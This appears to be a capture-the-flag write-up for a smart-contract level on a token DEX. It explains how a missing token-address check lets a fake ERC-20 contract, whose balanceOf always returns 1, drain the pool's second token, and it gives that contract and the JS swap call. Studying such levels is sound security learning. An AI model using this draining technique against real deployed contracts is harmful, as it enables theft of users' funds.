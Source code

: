 ```solidity
        _dex = dexInstance;
  }
  function approve(address owner, address spender, uint256 amount) public {
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

To solve this level we need to drain all the tokens of token1 and token2 in the contract.

We can drain one token from the contract by that method in previous challenge.

After that we left with 90 token2 in contract . We need to drain them , As you can see there is no from and to token check here , so we can pass any contract address that has a function of balanceOf and returns a integer greater than 1 .

I used this contract .

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract DexTwo {
     function balanceOf(address token) external view returns (uint){
        return 1;
    }
    function transferFrom(address from, address to, uint256 amount) external returns (bool) {
        return true;
    }
}
```

Which sets the getSwapAmount to 90 when we pass amount as 1. ( 1 \* 90 /1) . Now we can swap with this contract address , token2 address , amount as 1.

```js
await contract.swap(attack, t2, 1);
```
